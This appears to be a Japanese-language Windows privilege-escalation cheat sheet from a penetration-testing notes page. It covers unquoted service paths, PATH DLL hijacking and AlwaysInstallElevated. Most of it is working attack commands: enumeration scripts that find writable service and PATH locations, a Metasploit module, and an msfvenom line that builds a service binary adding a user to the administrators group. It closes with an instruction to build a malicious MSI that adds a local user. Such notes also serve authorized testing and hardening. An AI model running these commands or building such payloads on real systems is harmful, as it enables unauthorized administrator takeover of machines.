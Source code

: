 #### Unquoted Service Path(引用符なしのサービスパス)

引用符で囲まれていないすべてのサービスパスを一覧表示する (Windows 組み込みのサービスを除く)

```cmd
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" | findstr /i /v "C:\Windows\\" |findstr /i /v """
wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\\Windows\\system32\\" |findstr /i /v """ #Not only auto services

#Other way
for /f "tokens=2" %%n in ('sc query state^= all^| findstr SERVICE_NAME') do (
	for /f "delims=: tokens=1*" %%r in ('sc qc "%%~n" ^| findstr BINARY_PATH_NAME ^| findstr /i /v /l /c:"c:\windows\system32" ^| findstr /v /c:""""') do (
		echo %%~s | findstr /r /c:"[a-Z][ ][a-Z]" >nul 2>&1 && (echo %%n && echo %%~s && icacls %%s | findstr /i "(F) (M) (W) :\" | findstr /i ":\\ everyone authenticated users todos %username%") && echo.
	)
)

gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```

Metasploit

```
exploit/windows/local/trusted_service_path
```

MsfVenom

```bash
msfvenom -p windows/exec CMD="net localgroup administrators username /add" -f exe-service -o service.exe
```

#### PATH DLL Hijacking

PATH上のフォルダ内に書き込み権限を持っている場合、プロセスが読み込んだDLLをハイジャックして権限を昇格させることができます。
PATH内の全てのフォルダの書き込み権限を確認してください。

```cmd
for %%A in ("%path:;=";"%") do ( cmd.exe /c icacls "%%~A" 2>nul | findstr /i "(F) (M) (W) :\" | findstr /i ":\\ everyone authenticated users todos %username%" && echo. )
```

#### AlwaysInstallElevated(インストールレベル)

以下のレジストリ設定が「1」になっているか確認してください。

```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

そうであれば、ローカルユーザーを追加する悪意のあるMSIを作成してください。
